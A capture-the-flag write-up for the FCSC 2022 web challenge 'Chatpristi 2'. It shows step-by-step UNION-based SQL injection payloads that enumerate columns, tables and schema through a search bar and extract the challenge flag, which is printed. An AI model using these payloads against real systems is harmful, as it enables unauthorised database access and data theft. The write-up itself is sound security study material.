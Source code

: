 # Write-up: FCSC 2022 - Web Challenge - Chatpristi 2

## Challenge Description
The challenge consisted of a simple web application featuring a collection of cat memes and a search bar. As soon as I accessed the website, I noticed the search bar, which immediately caught my attention as a possible entry point for injection attacks.

---

## Reconnaissance
I started by exploring the web page to understand its layout and possible vulnerabilities. The search bar seemed like a great candidate to test for SQL Injection vulnerabilities, as such fields often interact with the database.

---

## SQL Injection Testing and Exploitation

### Step 1: Testing for the Number of Columns
To determine the number of columns in the vulnerable table, I began with a basic payload:

    ') UNION SELECT null --
  This produced an error indicating a column mismatch. I iteratively increased the number of null values until no error was returned:

    ') UNION SELECT null, null, null--
  This confirmed that the table had three columns.

### Step 2: Determining Column Data Types
  Next, I tested the data types for each column by replacing null with test values:

    ') UNION SELECT 1, 'a', 'a'--
  The query executed successfully, indicating the first column was of type int and the other two were string.

### Step 3: Enumerating Tables
  To identify all tables in the database, I executed the following payload:

    ') UNION SELECT 1, 'i', table_name FROM information_schema.tables--
   This listed all tables in the database. Among the results, one table stood out:
        
                  ___youw1lln3verfindmyfl4g___.

### Step 4: Enumerating Columns in the Target Table
   I then explored the columns of the target table using this payload:

    ') UNION SELECT 1, 'i', column_name FROM information_schema.columns WHERE table_name = '___youw1lln3verfindmyfl4g___'--
  The query returned two columns:

              id
              fstbg0adwb8f5upmg
              
### Step 5: Retrieving the Flag
  Finally, I crafted a payload to extract the contents of the table:

  ') UNION SELECT 1, id::text, fstbg0adwb8f5upmg FROM ___youw1lln3verfindmyfl4g___--

   This query revealed the flag stored in the table:

                    FCSC{edfaeb139255929e55a3cffe9f3f37cd4e871e5015c4d4ade2b02d77d44019e5}
  Final Results:
  The SQL injection exploitation confirmed the vulnerability and successfully extracted the flag.
